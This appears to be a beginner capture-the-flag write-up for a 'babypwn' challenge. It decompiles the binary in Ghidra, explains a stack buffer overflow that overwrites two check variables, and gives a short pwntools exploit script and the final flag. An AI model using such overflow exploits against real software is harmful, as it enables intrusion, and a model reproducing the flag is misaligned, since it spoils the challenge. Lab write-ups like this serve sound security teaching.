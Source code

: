 Challenge Description

This challenge is designed to introduce you to the world of binary exploitation (pwn).
You only need a basic understanding of data structures.
Author: YasseX

🔎 Step 1: Reversing the Binary with Ghidra

The first thing we did was open the binary in Ghidra, a popular reverse engineering tool.
After decompiling the main function, we obtained the following code:

![ghidra](../assets/babypwn.png)

Let's walk through it:

    A buffer of size 32 (char buffer[32];) is declared.

    Two integers, x and y, are also declared.

    The program reads 0x40 bytes (64 bytes) from user input into the 32-byte buffer.

    It prints some messages with pauses (sleep).

    Then, it checks if x == 0xdeadbeef and y == 0xbadc0de.

    If both conditions are true, it calls get_flag(), otherwise it prints a "Hardluck" message.


⚡ Step 2: Identifying the Vulnerability

Here, we clearly notice a buffer overflow vulnerability:

    The program reads 64 bytes into a 32-byte buffer without bounds checking.

    As a result, we can overflow the buffer and overwrite the memory areas after it — specifically the variables x and y!

step 3: writing exploit and get the flag

from pwn import *

context.binary = 'chall'

io = process()
#io = remote("ensafacademia.ddns.net", 9999)

payload = b'Y' * 32 + p32(0xdeadbeef) + p32(0x0badc0de)

io.sendline(payload)

io.interactive()

![exploit](../assets/pic3.png)

final flag : SECOPS{d4t4_s7ructur_w1th_0v3rl0w!!}
